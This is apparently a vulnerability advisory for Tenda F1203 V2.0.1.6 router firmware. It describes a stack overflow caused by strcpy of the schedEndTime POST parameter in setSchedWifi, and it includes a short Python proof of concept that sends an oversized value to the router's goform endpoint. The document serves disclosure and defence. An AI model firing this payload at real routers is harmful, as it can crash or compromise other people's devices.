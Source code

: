 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2494.html

## Affected version

F1203 V2.0.1.6

## Vulnerability details

The Tenda F1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v6` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy((char *)ptr + 10, v6);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305225509194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225509194.png)

![image-20240305225530022](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225530022.png)

![image-20240319134434006](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134434006.png)

![image-20240319134449058](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134449058.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319134504557](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134504557.png)
